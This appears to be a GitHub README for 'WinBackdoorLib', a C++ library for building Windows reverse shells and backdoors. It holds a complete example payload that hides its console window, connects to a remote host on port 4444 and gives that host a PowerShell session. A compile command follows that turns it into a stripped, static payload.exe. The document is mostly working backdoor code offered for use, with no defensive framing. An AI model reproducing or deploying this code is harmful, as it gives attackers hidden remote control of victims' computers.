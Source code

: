 # WinBackdoorLib
a simple module to create "reverse shell or backdoor" simply with Windows API

![Image1](capture.PNG)


## example Payload :
  ```cpp
#include "backdoorlib.h"
#include <iostream>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string.h>
#include <wininet.h>
#include <windows.h>

#pragma comment(lib,"Ws2_32.lib")

#define REMOTE_ADDR "192.168.1.71"
#define REMOTE_PORT 4444

int main()
{
    hide_console();
    WSADATA wsa_version;
    SOCKET socks;

    struct sockaddr_in session;

    session.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    session.sin_family = AF_INET;
    session.sin_port = htons(REMOTE_PORT);

    WSAStartup(MAKEWORD(2,2),&wsa_version);
    socks = WSASocket(AF_INET, SOCK_STREAM,IPPROTO_TCP,0,0,0);
    int c = connect(socks,session);
    if (c == 0)
	{
        execute_powershell(socks);
    }
    return 0;
}
  ```

## Compile Payload :
  ### g++ backdoorlib.cpp reverse_powershell.cpp -o payload.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lwininet
